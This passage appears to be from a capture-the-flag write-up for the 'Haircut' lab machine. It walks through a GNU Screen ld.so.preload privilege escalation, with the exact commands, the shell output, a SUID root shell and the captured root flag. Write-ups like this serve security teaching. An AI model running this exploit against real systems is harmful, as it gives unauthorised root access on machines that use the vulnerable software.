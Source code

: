 ```
Length: 16256 (16K) [application/octet-stream]
Saving to: 'rootshell'

rootshell           100%[===================>]  15.88K  --.-KB/s    in 0.02s   

2021-11-17 13:46:44 (830 KB/s) - 'rootshell' saved [16256/16256]

www-data@haircut:/tmp$ ls
ls
libhax.so
rootshell
systemd-private-7555ad73ab604aacbffed6ab62a73a29-systemd-timesyncd.service-0wjak6
vmware-root
www-data@haircut:/tmp$ 
```

Next, we need to run the following commands:

> cd /etc         --> the location of the shared library file we will create, which contains a reference to our own library file /tmp/libhax.so
>
> umask 000  --> see [https://en.wikipedia.org/wiki/Umask](https://en.wikipedia.org/wiki/Umask)
>
> screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"  --> create /etc/ld.so.preload and write /tmp/libhax.so to it
>
> screen -ls   --> trigger the vulnerability

```
www-data@haircut:/tmp$ cd /etc
cd /etc
www-data@haircut:/etc$ umask 000
umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" 
<en -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"                    
www-data@haircut:/etc$ screen -ls
screen -ls
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

www-data@haircut:/etc$
```

If we look at the /tmp/rootshell binary, it now has the SUID bit set and is owned by root and executable by everyone. To get a root shell, all we need to do is run it, and then we can grab the root flag.

```
www-data@haircut:/etc$ ls -la /tmp/rootshell
ls -la /tmp/rootshell
-rwsr-xr-x 1 root root 16256 Nov 17 13:01 /tmp/rootshell
www-data@haircut:/etc$ /tmp/rootshell
/tmp/rootshell
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
cat /root/root.txt
5cc6fed70f066782fd8485fd96545f88
# 
```
